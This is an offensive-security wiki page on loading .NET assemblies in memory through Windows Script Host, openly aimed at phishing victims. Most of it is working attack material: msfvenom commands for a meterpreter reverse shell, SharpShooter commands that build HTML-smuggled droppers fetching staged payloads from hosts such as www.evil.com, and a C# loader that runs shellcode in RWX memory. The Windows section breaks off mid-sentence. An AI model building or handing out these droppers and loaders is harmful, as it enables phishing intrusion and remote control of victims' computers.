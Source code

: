 ```yaml
---
description: MITRE ATT&CK™ Reflective Code Loading - Technique T1620
---
```


# .NET Assembly from Windows Script Hosting

## Theory

You can load and execute .NET (C#) assemblies directly into memory from a compiled binary using Jscript, VBScript, or VBA Mcros, by using the DotNetToJScript technique from James Forshaw.

{% hint style="success" %}
As double-clicking  `.js` or .`vbs` or other script files on Windows will by default execute them through the [Windows-Based Script Host](../code-execution/wsh.md),  this technique can efficiently be used for phishing and even phishing with [HTML Smuggling](../../delivery/phishing/html-smuggling.md).
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
[SharpShooter](https://github.com/mdsecactivebreach/SharpShooter) (Python) can be used to creat payloads in a variety of formats, including HTA, JS, VBS and WSF. It leverages James Forshaw's [DotNetToJavaScript](https://github.com/tyranid/DotNetToJScript) tool to invoke methods from the SharpShooter DotNet serialised object.

SharpShooter supports both staged and stageless payload execution.&#x20;

* **Stagless payload** will embed the whole .NET in the generated file.
* **Staged payloads** will attempt to retrieve a CSharp source code file that has been zipped and then base64 encoded using the chosen delivery technique (DNS or HTTP).  The CSharp source code will be downloaded and compiled on the host using the .NET CodeDom compiler. Reflection is then subsequently used to execute the desired method from the source code. A summary of how SharpShooter operates during staging is shown in the diagram below:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption><p><a href="https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/">https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/</a></p></figcaption></figure>

However for both types of payload, we should first generate a shellcode.&#x20;

```bash
# Generate a shellcode for stagless payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.121 LPORT=443 -f raw -o msf.raw

# Generate a shellcode for staged payloads
# The shellcode file should only contain the raw bytes, not the variable definition. For example byte[] buf = new byte[999] { 0x01, 0x02, 0x03 … would mean the shellcode file would contain just 0x01, 0x02, 0x03.
msfvenom -p windows/x64/exec CMD=calc.exe -f csharp > /tmp/raw.cs; cat /tmp/raw.cs |sed 's/byte\[\] buf = new byte\[[0-9]\+\] {//g' |sed 's/};//g' > msf.raw
```

{% hint style="danger" %}
When generating HTA payloads, we should always use 32-bit shellcodes due to mshta.exe being a 32-bit binary.
{% endhint %}

#### Stagless Payloads

We can now generate stageless payloads as follows.

```bash
# --payload:    Payload type: hta, js, jse, vbe, vbs, wsf, macro, slk
# --dotnetver:  Target .NET Version: 2 or 4
# --stageless:  Entire generated payload will be transferred at once (no HTML smuggling)

# Embedding a .NET assembly in JScript
sharpshooter --payload js --dotnetver 4 --stageless --rawscfile msf.raw --output evil

# Embedding a .NET assembly in VBScript
sharpshooter --payload vbs --dotnetver 4 --stageless --rawscfile msf.raw --output evil
```

#### Stagled Payloads

We can generate stageled payloads as follows.

```bash
# --payload:    Payload type: hta, js, jse, vbe, vbs, wsf, macro, slk
# --dotnetver:  Target .NET Version: 2 or 4
# --com:        COM Staging Technique: outlook, shellbrowserwin, wmi, wscript, xslremote
# --delivery:   Delivery method for the stage: web, dns, both
# --web:        URI for web delivery
# --shellcode:  Use built in shellcode execution
# --template:   HTTP Template for the HTTP generated file (for delievry)
# --smuggle:    Smuggle payload into generated HTTP

# HTTP Smuggling Delivery + Staged Payload to retreive the .NET to execute (in JScript)
sharpshooter --payload js --dotnetver 2 --shellcode --scfile msf.raw --output evil --delivery web --web http://www.evil.com/evil.payload --smuggle --template mcafee
```

For previous example, SharpShooter will have created 3 separate files in the output directory, evil.html, evil.js and evil.payload.

* **evil.js:** JavaScript payload that the user will eventually execute. If you are using HTML smuggling, this file does not need to be sent to the user, it’s provided purely for information and debugging purposes.
* **evil.html:** is the HTML file that we will ultimately coerce the user in to opening by whatever means. This file contains the encrypted copy of evil.js which is decrypted using JavaScript then served to the user using the navigator.mssaveBlob technique.
* **evil.payload**: is the C Sharp source code that will be retrieved, compiled and executed on the target host. In this case, the file contains a harness that will execute the supplied shellcode. The source code file is zipped then base64 encoded. The file should be hosted at the URI `http://www.evil.com/evil.payload`&#x20;

Alternatively, we can retreive a custom .NET from our staged payload:

```bash
# Custom .NET inside VBS
sharpshooter --dotnetver 4 --payload vbs --sandbox 2,3,4,5 --delivery web --refs mscorlib.dll,System.Windows.Forms.dll --namespace MDSec.SharpShooter --entrypoint Main --web http://www.phish.com/implant.payload --output malicious --smuggle --template mcafee
```
{% endtab %}

{% tab title="Windows" %}
[DotNetToJScript](https://github.com/tyranid/DotNetToJScript) is a tool created by James Forshaw that allows .NET (C#) assemblies to be executed within JavaScript or VBScript.

#### **Prepare the .NET Assembly**

First, you need to create or identify a **.NET assembly** (DLL or EXE) that contains the code you want to run. This assembly could perform any function, such as spawning a reverse shell, executing arbitrary code, or interacting with system resources.

In the example below, we create and compile our own C# code that can execute a supplied shellcode.

{% code title="evil.cs" %}
```csharp
// Compile this code as a DLL for x64 arch using Visual Studio 
using System;
using System.Runtime.InteropServices;

[ComVisible(true)]
public class EvilLoader
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public EvilLoader()
    {
        //msfvenom -p windows/x64/exec CMD=calc.exe -f csharp
        byte[] buf = new byte[276] {0xfc,0x48,0x83,0xe4,0xf0,0xe8......};

        int size = buf.Length;
        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
        Marshal.Copy(buf, 0, addr, size);
        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }
    
    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}
```
{% endcode %}

#### **Execute DotNetToJScript**

DotNetToJScript takes your compiled .NET assembly as input. The tool will embed this assembly into the output JScript or VBScript code.

{% hint style="info" %}
When using custom .NET assembly like in our example (i.e not the "ExampleAssembmy" provided code) we should specify the assembly class name and entry function.
{% endhint %}

```powershell
# -c:      Entry class name
# --lang:  Language to use (JScript, VBA, VBScript)
# --ver:   .NET version to use (None, v2, v4, Auto)

# Embedding a .NET assembly in JScript
.\DotNetToJScript.exe evil.dll -c EvilLoader --lang=Jscript --ver=v4 -o evil.js

# Embedding a .NET assembly in VBScript
.\DotNetToJScript.exe evil.dll -c EvilLoader --lang=VBScript --ver=v4 -o evil.js

# Embedding a .NET assembly in VBA
.\DotNetToJScript.exe evil.dll -c EvilLoader --lang=VBA --ver=v4 -o evil.js
```

#### **Execute the Payload**

Generated JScript or VBScript payload can be executed by double-clicking it or using [Windows Script Host](../code-execution/wsh.md). Such


{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/" %}

{% embed url="https://ppn.snovvcrash.rocks/red-team/maldev/code-injection/shellcode-runners#c-dll-to-jscript" %}

{% embed url="https://www.ired.team/offensive-security/defense-evasion/executing-csharp-assemblies-from-jscript-and-wscript-with-dotnettojscript" %}

